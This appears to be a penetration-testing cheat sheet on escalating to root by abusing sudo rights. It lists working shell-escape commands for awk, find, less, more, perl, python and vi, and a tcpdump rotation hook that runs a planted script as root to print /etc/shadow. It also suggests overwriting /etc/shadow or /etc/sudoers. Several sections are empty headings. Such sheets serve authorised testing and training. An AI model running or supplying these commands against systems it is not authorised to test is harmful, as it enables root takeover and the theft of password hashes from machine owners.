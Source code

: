 # Abusing Sudo Rights

## Overview

* if you have a limited shell that has access to some programs using sudo you might be able to

escalate your privileges with

* any program that can write or overwrite can be used
* for example, if you have sudo-rights to cp you can

```bash
overwrite /etc/shadow #or 
/etc/sudoers #with your own malicious file
```

## Awk

```bash
awk 'BEGIN {system("/bin/bash")}'
```

## Bash

## Cp

* copy and overwrite this file

```bash
/etc/shadow
```

## Find

```bash
sudo find / -exec bash -i \;
```

```bash
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

## Ht

* the text/binary-editor HT.

## Less

* from less you can go into vi, and then into a shell

```bash
sudo less /etc/shadow
v
:shell
```

## More

* you need to run more on a file that is bigger than your screen

```bash
sudo more /home/pelle/myfile
!/bin/bash
```

## Mv

* overwrite these files

```bash
/etc/shadow
/etc/sudoers
```

## Man

## nano

## Nc

## Nmap

## Python/Perl/Ruby/Lua/Etc

### Perl

```bash
sudo perl
exec "/bin/bash";
ctr-d
```

### Python

```bash
sudo python
import os
os.system("/bin/bash")
```

## Sh

## tcpdump

```bash
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

## Vi/Vim

* can be abused like this

```bash
sudo vi
:shell
#and/or
:set shell=/bin/bash:shell
:!bash
```

